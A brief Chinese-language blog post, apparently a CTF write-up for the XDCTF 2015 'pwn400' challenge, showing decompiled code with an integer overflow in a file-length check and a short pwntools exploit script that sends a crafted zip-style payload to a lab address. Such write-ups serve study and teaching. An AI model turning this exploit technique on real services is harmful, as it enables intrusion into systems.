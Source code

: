 ```yaml
---  
layout: post  
title: "xdctf-pwn400"  
date: 2015-10-05 13:06:20 +0800  
comments: true  
categories:   
---  
```

  
###0x00 分析  
	存在典型的整数溢出  
  
	  if ( (unsigned __int16)(file_len + 2) <= (_BYTE *)buf - (_BYTE *)src + v15 - 46 )  
	  {  
	    if ( file_len )  
	      s = (char *)sub_8048C86((int)&v9, file_len, 1);  
	    v3 = strlen(s);  
	    v11 = write(fd, s, v3);  
	  }  
  
###0x01 exp  
  
	from pwn import *  
	from binascii import *  
  
	r = remote('192.168.56.102', 8888)  
	print r.recvuntil("hello world~")  
  
	payload  = ''  
	payload += 'PK\x01\x02'  
	payload  = payload.ljust(28, 'P')  
	payload += '\xff\xff'  
	payload  = payload.ljust(228, 'P')  
	r.sendline(payload)  
  
	r.interactive()  
